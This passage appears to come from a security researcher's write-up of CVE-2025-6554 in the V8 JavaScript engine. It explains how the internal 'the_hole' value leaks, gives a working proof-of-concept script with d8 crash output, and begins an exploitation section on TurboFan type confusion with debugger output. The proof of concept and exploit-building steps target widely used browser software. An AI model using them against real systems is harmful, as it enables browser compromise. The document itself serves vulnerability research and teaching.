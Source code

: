 ```
3. Offset 11: ThrowReferenceErrorIfHole never executes (jumped over)
4. Offset 25-26: Load y (still contains the_hole)
5. Offset 28: Missing ThrowReferenceErrorIfHole in unpatched version
6. the_hole leaks into JavaScript
```

```bash
$ cat /tmp/poc.js
function leak_hole() {
  let x;
  delete x?.[y]?.a;
  return y;
  let y;
}
print(leak_hole());
$ ./out/x64.debug/d8 /tmp/poc.js


#
# Fatal error in ../../src/api/api.cc, line 807
# Debug check failed: !IsTheHole(heap_object).
#
#
#
#FailureMessage Object: 0x7ffc705cee28
==== C stack trace ===============================
...
```

## From Hole to Exploit

The leaked `the_hole` object enables a sophisticated and very interesting type confusion attack in TurboFan's compiler. This technique was [documented by @mistymntncop](https://github.com/mistymntncop/CVE-2025-6554), based on the in-the-wild [exploit](https://issues.chromium.org/issues/427663123#comment5), so all the credits for this guys :D.

### Step 1: Type Confusion via `the_hole.length`

The `the_hole` object has an unusual property: at offset +8 (where strings store their length), it contains the value `0xfff7ffff` (-524289). This creates a type confusion opportunity:

```bash
$ cat /tmp/a.js
%DebugPrint("some string");
%DebugPrint(%TheHole());
%SystemBreak();

$ gdb-pwndbg --args ./out/x64.release/d8 --allow-natives-syntax /tmp/a.js
DebugPrint: 0x11000005d421: [String] in OldSpace: #some string
0x110000000155: [Map] in ReadOnlySpace
 - map: 0x110000000475 <MetaMap (0x11000000002d <null>)>
 - type: INTERNALIZED_ONE_BYTE_STRING_TYPE
 - instance size: variable
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - non-extensible
 - back pointer: 0x110000000011 <undefined>
 - prototype_validity_cell: 0
 - instance descriptors (own) #0: 0x1100000007f1 <DescriptorArray[0]>
 - prototype: 0x11000000002d <null>
 - constructor: 0x11000000002d <null>
 - dependent code: 0x1100000007cd <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

```